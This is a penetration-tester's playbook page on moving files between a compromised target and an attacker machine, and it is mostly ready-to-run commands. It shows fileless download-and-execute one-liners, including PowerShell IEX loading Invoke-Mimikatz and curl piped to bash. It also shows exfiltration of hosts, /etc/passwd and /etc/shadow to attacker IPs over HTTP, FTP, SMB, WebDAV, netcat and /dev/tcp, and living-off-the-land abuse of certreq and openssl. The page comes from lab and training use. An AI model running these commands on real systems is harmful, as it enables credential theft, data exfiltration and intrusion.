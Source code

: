 ```yaml
---
slug: /playbooks/file-transfer
pagination_next: null
pagination_prev: null
---
```


How to extract/send files from the machines to the attacker machine.

See https://academy.hackthebox.com/module/24 or https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration
for complete reference

## Base64 encode/decode

If the payload to transmit is small enough, do base64 encode/decode and later check md5 hashes match

```bash
base64 -w0 <file> #Encode file
base64 -d file #Decode file
```

## Powershell

Complete reference: https://gist.github.com/HarmJ0y/bb48307ffa663256e239

```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

Fileless method: it does not touch the disk

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

Upload, powershell does not have a native cmdlet to perform HTTP uploads, however we can install this feature

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

Upload with base64:

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

Upload via FTP:

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

## Samba

Start a impacket samba server on the attacker machine:

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

Note: the folder will not be created automatically, so you might want to create it beforehand.

Then to download a file from the attack machine to the target machine:

```powershell
copy \\192.168.220.133\share\nc.exe
```

Or to upload a file from the target machine to the attack machine

```powershell
copy upload_win.txt \\192.168.220.133\share
```

If the samba ports are blocked, it's worth trying with WebDAV which runs SMB over HTTP.

Attacker machine:

```bash
sudo pip install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

Target machine:
```powershell
dir \\192.168.49.128\DavWWWRoot
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

Note: `DavWWWRoot`` is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.

You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder

## ftp

Start a FTP server in the attacker:

```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```

By default it will try to run at port 2121, so we need to explicitly say port 21 (and sudo).

At the target machine, we can use powershell cmdlet:

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
If the shell is not interactive, we'll need to create a file with the FTP commands, e.g.:

```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```

## wget

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
# fileless wget
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## curl

```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
# fileless curl
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

## nc
```bash
nc -lvnp 9002 > SharpKatz.exe #Inside receiver
nc -q 0 192.168.49.128 9002 < SharpKatz.exe #In sender
```

## dev/tcp

As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

```bash
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
cat <&3

cat metabase.db.trace.db > /dev/tcp/10.10.14.102/9002 # Send the file
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe # Receive the file
```

## python

Attacker machine runs HTTP(s) server

```bash
sudo python3 -m pip install --user uploadserver
python3 -m http.server 5555
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```

Target machine uploads file:

```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Self-signed certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

## Living off The Land

You can abuse of binaries supposed to perform an action to escape from some prohibited binaries. This is same concept as the privilege escalation using GTFObins.

You can use:
- https://lolbas-project.github.io/# for windows
- https://gtfobins.github.io/ for Linux

For example, for Windows we can use `certreq.exe`:

```powershell
certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
```

For example in Linux, you can abuse `openssl`:


On attacker:
```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

On target:
```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```